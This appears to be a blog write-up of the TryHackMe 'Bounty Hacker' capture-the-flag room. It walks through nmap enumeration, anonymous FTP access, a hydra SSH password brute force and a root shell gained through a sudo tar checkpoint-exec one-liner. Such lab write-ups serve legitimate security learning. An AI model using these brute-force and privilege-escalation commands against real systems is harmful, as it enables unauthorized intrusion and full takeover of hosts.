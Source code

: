 ```yaml
---
layout: post
permalink: /posts/thm/bounty-hacker
title: "Bounty Hacker"
---
```


You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker! <br/>

Okay, let's start our enumeration with nmap scan

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/bounty-hacker/nmap.png)

Good! From the nmap scan we can see there are open ports 21 FTP, 22 SSH and 80 HTTP. Now we need to find a task list which will probably be located on the FTP server. You can notice from the nmap result that anonymous login is allowed. Go and visit the FTP server.

```
ftp <IP>
```

with username `anonymous`

![ftp](/assets/images/thm/bounty-hacker/ftp.png)

We can download the files with the following command

```
get <FILE_NAME>
```

From the `task.txt` we have found a name which is probably a user likewise `locks.txt` looks like password wordlist. Let's try to bruteforce ssh using hydra.

```
hydra -l lin -P locks.txt 10.10.126.63 ssh
```

![hydra](/assets/images/thm/bounty-hacker/hydra.png)

Yep, as we thought it was a password wordlist. Now SSH to the machine.

```
ssh lin@<IP>
```

![shell](/assets/images/thm/bounty-hacker/shell.png)

Here is the first flag. Now we need to find way to escalate our privileges. The first thing that I always check is whether the current user has any permissions to execute sudo commands.

```
sudo -l
```

![sudo-l](/assets/images/thm/bounty-hacker/sudo-l.png)

We are in luck. Lin user has the right to execute `/bin/tar` as sudo. Go and visit our favourite site `https://gtfobins.github.io/gtfobins/tar/`

![gtfobins](/assets/images/thm/bounty-hacker/gtfobins.png)

Yes, it is as simple as that, just copy the command and execute it and you will have root access.

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![root](/assets/images/thm/bounty-hacker/root.png)

Here we go, we are root. Find the root flag and you'll prove that you are an elite hacker.
